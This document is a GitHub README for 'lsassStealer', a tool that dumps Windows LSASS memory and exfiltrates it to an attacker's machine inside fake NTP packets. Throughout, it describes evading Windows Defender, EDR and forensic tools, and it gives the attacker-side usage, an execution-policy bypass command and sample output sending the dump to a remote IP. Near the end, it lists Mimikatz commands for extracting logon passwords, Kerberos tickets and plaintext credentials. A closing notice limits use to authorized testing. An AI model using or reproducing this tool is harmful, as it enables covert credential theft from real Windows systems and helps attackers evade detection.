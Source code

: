 
<h1 align="center"> Project lsassStealer </h1>

## **🔍 Overview**
`lsassStealer` is an tool designed to **dump the memory of the Windows process `lsass.exe`** and **exfiltrate** it using **UDP packets disguised as NTP requests**. Unlike traditional tools like **Mimikatz**, this tool performs all operations **in RAM**, avoiding detection by **Windows Defender, EDR, and forensic tools**.


The project consists of:
- A **dumper** (`memdump.c`) to **extract LSASS memory in RAM**.
- A **sender** that transmits the **compressed dump over UDP (NTP packets)**.
- A **receiver** (`server.py`) that **reassembles the fragments** and **decompresses the memory dump**.

---

## **🛠 Features**
### **🔹 Process Identification**
- The **process name (`lsass.exe`) is obfuscated** in the source code using **XOR encoding** (`0x13` key) to **bypass static detection**.
- **Windows APIs (`CreateToolhelp32Snapshot`)** are used to **enumerate processes and extract the PID** dynamically.

### **🔹 Memory Dumping**
- Uses **MiniDumpWriteDump (from `DbgHelp.dll`)** to dump LSASS **directly into RAM**, **never touching the disk**.
- A **memory-mapped file** acts as a temporary buffer to minimize detection.

### **🔹 Compression (zlib)**
- The **dump is compressed in-memory** using `zlib` before transmission.
- This **reduces size** and makes the exfiltration **less detectable**.

### **🔹 Exfiltration via Fake NTP Packets**
- The **compressed dump is fragmented into small chunks** and sent via **UDP packets disguised as NTP traffic**.
- The **"Transmit Timestamp" field** of the NTP packet is **hijacked** to store **payload fragments**.

### **🔹 Receiver Script**
- A **Python-based receiver** (`receiver.py`) **listens on UDP port 123 (NTP)**.
- It **reassembles the fragmented dump**, **decompresses** it, and **writes it to a file**.

---

## **📜 How NTP Packet Camouflage Works**
### **🔹 Normal NTP Packet Structure**
NTP (Network Time Protocol) packets typically contain **48 bytes**, with the last 8 bytes storing the **Transmit Timestamp**.

```
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|LI | VN  |Mode |    Stratum     |     Poll      |  Precision   |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                          Root Delay                           |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                       Root Dispersion                         |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                     Reference Identifier                      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                   Reference Timestamp (64 bits)               |
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                   Originate Timestamp (64 bits)               |
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                    Receive Timestamp (64 bits)                |
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                    Transmit Timestamp (64 bits)               |    <------- Hijacked
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### **🔹 How This Tool Abuses NTP**
- Instead of sending a **valid NTP Transmit Timestamp**, we hijack this field and we **embed data** into it.
- The **first packet** contains a **header**:
  - **4 bytes** → `total number of fragments` (big-endian)
  - **4 bytes** → `total compressed size` (big-endian)
- Each **subsequent packet** contains:
  - **4 bytes** → `fragment sequence number`
  - **4 bytes** → `data fragment`

This **allows memory dump exfiltration under the guise of legitimate NTP traffic**.

---

## **🚀 Installation & Compilation**
### **🔹 Windows (PowerShell)**
 -- If you have VSCode or another configured environment
 1. Run the following command:
   ```powershell
   Set-ExecutionPolicy Bypass -Scope Process -Force; ./run.ps1
   ```

---

## **🎯 Usage**
### **1️⃣ Run the Dumper (Attacker)**
On **Windows**:
```powershell
.\memdump.exe
```

You will be prompted to **enter the remote server IP and port** for exfiltration.

### **2️⃣ Run the Receiver (Listener)**
On the **attacker machine**, run:
```bash
python3 server.py
```
This will **listen on UDP port 123 (NTP)** and reconstruct the **exfiltrated dump**.

---

## **📌 Example Execution**
### **🟢 Attacker (Dumper)**
```
[*] Enter server IP: 192.168.1.100
[*] Enter server port: 123
[+] Process lsass.exe found with PID 1234
[+] Memory dump completed. Size: 16 MB.
[+] Compression completed. Compressed size: 512 KB.
[+] Header sent: 128 fragments, 512 KB total.
[+] Packet 1/128 sent.
...
[+] Transmission completed.
```

### **🟢 Receiver (Listener)**
```
[INFO] Listening on 0.0.0.0:123 (global timeout: 30s)
[INFO] Header received: 128 fragments, 512 KB compressed size.
[INFO] Receiving packets...
[Reconstitution] [========------] 50% (64/128)
[INFO] All fragments received.
[INFO] Decompressing...
[INFO] Dump saved as dump_memory.bin.
```

---

## **🔍 Analyzing the Dump with Mimikatz**

Once you have obtained the memory dump file (`dump_memory.bin`), you can analyze it using **Mimikatz** to extract credentials and other sensitive information. Here are the steps and commands to do so:

1. **Download Mimikatz**: Ensure you have the latest version of Mimikatz from the official GitHub repository.

2. **Run Mimikatz**: Open a command prompt with administrative privileges and navigate to the directory containing Mimikatz.

3. **Load the Memory Dump**: Use the following commands to load and analyze the memory dump:

   ```shell
   mimikatz # sekurlsa::minidump dump_memory.bin
   mimikatz # sekurlsa::logonpasswords
   ```

   - The first command loads the memory dump file.
   - The second command extracts and displays logon passwords from the dump.

4. **Extract Additional Information**: You can use other Mimikatz commands to extract more information, such as:

   ```shell
   mimikatz # sekurlsa::tickets
   mimikatz # sekurlsa::wdigest
   ```

   - `sekurlsa::tickets`: Extracts Kerberos tickets.
   - `sekurlsa::wdigest`: Extracts plaintext credentials stored by WDigest.

---

## **⚠️ Legal Notice**
🚨 **This tool is for EDUCATIONAL and AUTHORIZED TESTING ONLY.**
Use this tool **only on systems you own or have explicit permission to test**.

---
